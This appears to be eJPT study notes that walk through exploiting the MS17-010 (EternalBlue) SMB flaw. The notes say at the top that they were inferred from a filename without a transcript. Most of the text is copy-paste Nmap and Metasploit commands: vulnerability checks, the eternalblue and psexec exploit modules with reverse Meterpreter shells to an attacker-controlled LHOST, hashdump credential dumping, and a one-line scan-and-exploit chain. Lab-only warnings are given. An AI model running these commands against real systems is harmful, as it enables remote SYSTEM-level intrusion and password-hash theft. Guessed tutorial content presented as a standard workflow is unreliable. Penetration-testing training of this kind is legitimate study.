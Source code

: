 # Exploiting Windows MS17-010 SMB Vulnerability (EternalBlue)

Note: No transcript was provided. The following summary is inferred from the filename and typical eJPT workflow for exploiting MS17-010 (EternalBlue). Commands and module names are standard and safe to assume for this topic.

## What the video covers (Introduction / big picture)
- Overview of MS17-010 (aka EternalBlue), a critical SMBv1 remote code execution vulnerability affecting Windows systems (notably Windows 7/Server 2008 R2 x64).
- How to identify a potentially vulnerable host via port scanning and SMB checks.
- Verifying vulnerability using Nmap and Metasploit scanner.
- Gaining a Meterpreter shell using Metasploit’s ms17_010_eternalblue exploit (primary) and ms17_010_psexec (fallback).
- Post-exploitation basics: verifying access, quick system info, and notes on stability/architecture.

## Flow (ordered)
1. Recon: Identify hosts with SMB open (TCP/445).
2. Detect MS17-010: Use Nmap NSE and/or Metasploit scanner to confirm vulnerability.
3. Confirm architecture: Target must be x64 for the ms17_010_eternalblue module.
4. Prepare listener/payload: Configure reverse Meterpreter (LHOST/LPORT).
5. Exploit with Metasploit:
   - Try exploit/windows/smb/ms17_010_eternalblue first.
   - If not compatible (e.g., 32-bit) or unstable, try exploit/windows/smb/ms17_010_psexec.
6. Obtain Meterpreter, verify SYSTEM privileges, and gather basic info.
7. Optional post-exploitation: hashdump, file access, persistence (lab-only).
8. Clean up.

## Tools highlighted
- Nmap with smb-vuln-ms17-010 and smb-os-discovery scripts
- Metasploit Framework:
  - auxiliary/scanner/smb/smb_ms17_010
  - exploit/windows/smb/ms17_010_eternalblue
  - exploit/windows/smb/ms17_010_psexec
- Optional helpers: smbclient (enumeration), whoami/sysinfo within Meterpreter

## Typical command walkthrough (detailed, copy-paste friendly)

Replace placeholders before running:
- <RHOST> = target IP (e.g., 10.10.10.10)
- <LHOST> = your IP for callbacks (e.g., tun0/vpn IP)
- <LPORT> = a free local port (e.g., 4444)

1) Quick discovery and vulnerability check
```
# Fast check for SMB and MS17-010
nmap -Pn -p445 --open -sV --script=smb-vuln-ms17-010,smb-os-discovery <RHOST>
```

2) Confirm with Metasploit scanner
```
msfconsole -q
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS <RHOST>
set RPORT 445
run
```
- Look for “Vulnerable” or indicators of SMBv1 + MS17-010.

3) Exploit with EternalBlue (primary)
```
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <RHOST>
set RPORT 445
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <LHOST>
set LPORT <LPORT>
set VerifyArch true
set VerifyTarget true
check
run
```
- On success you should get a Meterpreter session as NT AUTHORITY\SYSTEM.

4) Fallback exploit if EternalBlue fails (e.g., 32-bit, instability)
```
back
use exploit/windows/smb/ms17_010_psexec
set RHOSTS <RHOST>
set RPORT 445
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <LHOST>
set LPORT <LPORT>
check
run
```

5) Basic post-exploitation (from Meterpreter)
```
getuid
sysinfo
ipconfig
# Optional, be mindful in shared labs:
hashdump
```

6) Optional: one-liner msfconsole session to scan then exploit
```
msfconsole -q -x "use auxiliary/scanner/smb/smb_ms17_010; set RHOSTS <RHOST>; run; back; use exploit/windows/smb/ms17_010_eternalblue; set RHOSTS <RHOST>; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST <LHOST>; set LPORT <LPORT>; set VerifyTarget true; check; run"
```

## Practical tips
- EternalBlue module requires x64 target (Windows 7/Server 2008 R2 x64 most common). If 32-bit, try ms17_010_psexec.
- Use check before run to reduce crashes and confirm likely success.
- If exploitation is flaky, increase WfsDelay or attempts:
  - set WfsDelay 15
  - set MaxExploitAttempts 3
- If you see “only supports x64 targets,” switch modules as above.
- If Nmap doesn’t clearly report vulnerability but Metasploit does (or vice versa), trust multiple indicators and try check/run once; avoid repeated runs to reduce BSOD risk.
- Make sure firewall isn’t blocking your reverse connection (verify LHOST/LPORT reachability).
- Run in an isolated lab only; this is a wormable vulnerability on unpatched systems.

## Minimal cheat sheet (one-screen flow)
```
# 1) Detect
nmap -Pn -p445 --open -sV --script=smb-vuln-ms17-010,smb-os-discovery <RHOST>

# 2) Metasploit scan
msfconsole -q
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS <RHOST>
run

# 3) Exploit (x64 EternalBlue)
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <RHOST>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <LHOST>
set LPORT 4444
set VerifyTarget true
check
run

# 4) If fail/32-bit: fallback
back
use exploit/windows/smb/ms17_010_psexec
set RHOSTS <RHOST>
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <LHOST>
set LPORT 4444
check
run

# 5) Post-exploit
getuid
sysinfo
```

## Summary
- MS17-010 (EternalBlue) is an unauthenticated RCE in SMBv1 widely exploited against older Windows systems.
- The standard eJPT workflow is: confirm SMB/port 445, validate MS17-010 with Nmap and/or Metasploit scanner, then exploit with ms17_010_eternalblue (x64) or ms17_010_psexec as fallback.
- Configure payload correctly (LHOST/LPORT), use check before run, and expect SYSTEM-level Meterpreter on success.
- Be cautious: EternalBlue can crash targets. Use only in controlled lab environments.